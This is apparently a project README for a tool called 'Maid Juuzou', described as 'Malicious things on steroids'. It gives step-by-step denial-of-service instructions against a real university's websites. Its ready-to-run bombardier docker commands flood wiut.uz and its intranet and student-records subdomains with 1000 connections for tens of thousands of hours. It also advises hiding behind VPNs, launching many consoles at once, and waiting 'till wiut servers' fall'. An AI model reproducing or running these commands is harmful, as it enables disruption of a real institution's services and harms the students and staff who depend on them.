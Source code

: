 <p align="center"><img width="300" src="./docs/readme.webp"/></p>

<h2 align="center">Maid Juuzou</h2>

<p align="center">Malicious things on steroids.</p>

# Target

<p align="center"><img src="./docs/diagram.png"/></p>

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://intranet.wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://srs.wiut.uz`
<br>

# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/mad-maids/maid.juuzou/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till wiut servers' fall

> All endpoints can be found at: https://dnsdumpster.com